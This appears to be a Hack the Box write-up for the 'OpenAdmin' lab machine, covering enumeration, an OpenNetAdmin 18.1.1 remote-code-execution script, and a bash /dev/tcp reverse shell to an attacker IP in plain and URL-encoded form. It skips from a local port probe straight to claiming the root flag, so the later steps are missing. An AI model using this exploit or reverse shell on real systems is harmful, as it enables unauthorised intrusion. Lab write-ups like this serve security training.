



# Hack the Box - Machine - OpenAdmin
Author: del_KZx497Ju 
Release Date: January 4, 2020

## Machine Description
An easy level Linux box

## Tools Used
- nmap
- gobuster


## Write Up

Looks like we have SSH on port 22 and an Apache webserver on 80

```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

```

Let's Check out the webpage, it the default apache install page.



Lets run gobuster to see if anything else is running on the webserver

```
/music                (Status: 301) [Size: 314] [--> http://10.129.66.234/music/]
/artwork              (Status: 301) [Size: 316] [--> http://10.129.66.234/artwork/]
/sierra               (Status: 301) [Size: 315] [--> http://10.129.66.234/sierra/] 
```
We get three websites, lets check out the first one. Music


When you try to log into the music page, it asks for an update. But his enumerates that its using OpenNetAdmin version number as 18.1.1



Quick search on exploitdb reveals some PoC exploits for RCE are available.



Lets try the [RCE exploit](https://www.exploit-db.com/exploits/47691).

```bash
URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```
Cool we have remote code execution:

```
$ bash ona_ex.sh http://10.129.66.234/ona/login.php
$ whoami
www-data
```

Lets get a proper shell

```
$ bash ona_ex.sh http://10.129.66.234/ona/login.php
$ bash -i >& /dev/tcp/10.10.14.35/9001 0>&1

```

No shell, but since the command is send over a curl request and there is a lot of wierd characters lets try URL encoding the reverse shell command and sending it. You can use cyber chef to url encode.

```
       cmd: bash -c 'bash -i >& /dev/tcp/10.10.14.35/9001 0>&1'
urlencoded: bash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E10%2E14%2E35%2F9001%200%3E%261%27
```

```
$ bash ona_ex.sh http://10.129.66.234/ona/login.php
$ bash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E10%2E14%2E35%2F9001%200%3E%261%27

```

We get a shell. Lets upload and run linpeas and see what it enumerates.

- Vulnerable to CVE-2021-4034 PwnKit (Not the intended path to exploit the box)
- mysql is running (mysql     1348  0.0  4.7 1621384 192320 ?      Sl   Aug21   0:12 /usr/sbin/mysqld --daemonize --pid-file=/run/mysqld/mysqld.pid)
- Identidy 3 users:
⋅⋅- uid=1000(jimmy) gid=1000(jimmy) groups=1000(jimmy),1002(internal)
⋅⋅- uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)
⋅⋅- uid=0(root) gid=0(root) groups=0(root)
- Locally Listening on a highport (tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN      - )

Let netcat to that port to see what running

```
www-data@openadmin:/opt/ona/www/local/config$ nc 127.0.0.1 52846
nc 127.0.0.1 52846
hello
HTTP/1.1 400 Bad Request
```

looks like a webserver


We have the root flag!
